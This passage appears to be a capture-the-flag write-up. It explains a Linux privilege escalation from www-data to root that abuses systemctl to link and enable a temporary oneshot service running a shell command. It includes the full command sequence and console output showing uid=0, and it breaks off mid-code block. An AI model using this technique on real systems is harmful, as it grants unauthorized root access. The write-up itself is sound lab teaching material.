 - `TF=$(mktemp).service`: we will create a new environment variable called “TF” (the name can be anything). Next, we will be using the mktemp command to create a new temporary file as a system service file
- `echo '[Service]`: use the echo command to enter an input into the system. The single quote (‘) will allow us to enter into multi-line mode so we can enter the rest of the commands
- `Type=oneshot`: declare the service as oneshot, which means that the service will execute the action and then immediately exit
- `ExecStart=/bin/sh -c "id > /tmp/output"`: when the service starts, use the sh command to execute (-c) everything inside the double quotes. This will send the results of the command “id” into a file named output in the tmp directory
- `[Install]`: denotes the second part of our system services file
- `WantedBy=multi-user.target' > $TF`: set the service to run once it reaches a certain runlevel. Multi-user.target is runlevel 3, while a functional Linux OS with GUI is runlevel 5. This dependency input and everything before is then redirected into the TF variable. The single quote after target is to denote the end of our echo entry.
- `Systemctl link $TF`: link the TF variable to systemctl so it can be executed by systemctl even though it’s in a different path from other service files
- `systemctl enable --now $TF`: enable the service file stored in the TF variable immediately. It will reload the system manager to ensure the changes are in effect


Note that we do not have `www-data` password which is why we will need to modify it a little bit: 
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

let try it out
```console
$ TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TFTF=$(mktemp).service
$ echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
> > > > $ Created symlink from /etc/systemd/system/tmp.Smp1tZNwmJ.service to /tmp/tmp.Smp1tZNwmJ.service.
$ 
systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.Smp1tZNwmJ.service to /tmp/tmp.Smp1tZNwmJ.service.
$ ls /tmp       
ls /tmp
output
$ cat /tmp/output
cat /tmp/output
uid=0(root) gid=0(root) groups=0(root)
```
yep it works. as you we use systemctl to esacalated to root priv. now we can use it to `cat root.txt` to get root flag:
```
TF=$(mktemp).service
```